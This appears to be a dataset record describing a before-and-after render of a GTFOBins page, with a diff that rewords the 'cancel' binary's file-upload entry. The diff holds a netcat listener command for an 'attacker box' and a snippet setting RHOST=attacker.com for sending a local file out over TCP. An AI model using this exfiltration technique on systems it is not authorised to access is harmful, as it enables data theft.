

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/cancel.md, in a window 1280 px wide. Shown: the top 429 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Keep cancel description consistent

```diff
--- a/_gtfobins/cancel.md
+++ b/_gtfobins/cancel.md
@@ -1,7 +1,7 @@
 ---
 functions:
   file-upload:
-    - description: Send contents of a file to a TCP port. Run `nc -nlvp $RPORT > "file to save"` on the attacker system to capture the contents.
+    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
       code: |
         RHOST=attacker.com
         RPORT=12345
```
